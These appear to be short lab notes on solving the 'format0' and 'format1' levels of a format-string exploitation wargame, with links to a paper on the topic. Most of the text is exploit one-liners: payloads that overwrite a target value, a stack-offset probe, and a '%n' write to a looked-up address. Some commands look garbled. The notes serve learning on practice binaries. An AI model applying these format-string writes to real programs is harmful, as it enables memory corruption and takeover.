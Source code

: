 https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf

##Format0
* can be done in stackoverflow and format
* `./format0 python -c "print -c 'A'*64+\xef\xbe\xad\xde\"`
* `./format0 python -c "print -c '%64d'+'\xef\xbe\xad\xde\'"`

##Format1
* this is bit tricky as the offset not just in the 128 place
* ./format1 `python -c "print 'AAAAAAAA'+'%x.'*150"`
* identify the offset is 128 like this `41414100.41414141.2e782541` so we need add 1 extra `A` for the attack
* identify the target address
* `objdump -t ./format1 | grep target`
* `08049638`
* ./format1 `python -c "print '\x38\x96\x04\x08A%128$n'"`


